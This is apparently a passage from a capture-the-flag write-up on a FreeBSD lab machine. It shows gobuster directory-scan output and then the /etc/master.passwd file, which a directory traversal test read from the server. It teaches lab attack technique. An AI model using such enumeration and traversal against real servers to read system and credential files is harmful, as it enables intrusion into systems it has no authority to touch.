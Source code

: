 ```
===============================================================
2021/01/11 01:03:29 Starting gobuster
===============================================================
/info.php (Status: 200)
/index.php (Status: 200)
/browse.php (Status: 200)
/ini.php (Status: 200)
/phpinfo.php (Status: 200)
[ERROR] 2021/01/11 01:07:28 [!] parse http://10.10.10.84/error_log: net/url: invalid control character in URL
===============================================================
2021/01/11 01:08:27 Finished
===============================================================
```

We test to see if we can execute a simple directory traversal:

![ImgPlaceholder](screenshots/directory_traversal_test.png)

It looks like it is:

```
# $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $
#
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin
operator:*:2:5:System &:/:/usr/sbin/nologin
bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin
tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin
kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin
games:*:7:13:Games pseudo-user:/:/usr/sbin/nologin
news:*:8:8:News Subsystem:/:/usr/sbin/nologin
man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin
sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin
smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin
mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin
bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin
unbound:*:59:59:Unbound DNS Resolver:/var/unbound:/usr/sbin/nologin
proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin
_pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin
_dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin
uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin
auditdistd:*:78:77:Auditdistd unprivileged user:/var/empty:/usr/sbin/nologin
www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin
_ypldap:*:160:160:YP LDAP unprivileged user:/var/empty:/usr/sbin/nologin
hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin
nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
_tss:*:601:601:TrouSerS user:/var/empty:/usr/sbin/nologin
messagebus:*:556:556:D-BUS Daemon User:/nonexistent:/usr/sbin/nologin
avahi:*:558:558:Avahi Daemon User:/nonexistent:/usr/sbin/nologin
cups:*:193:193:Cups Owner:/nonexistent:/usr/sbin/nologin
```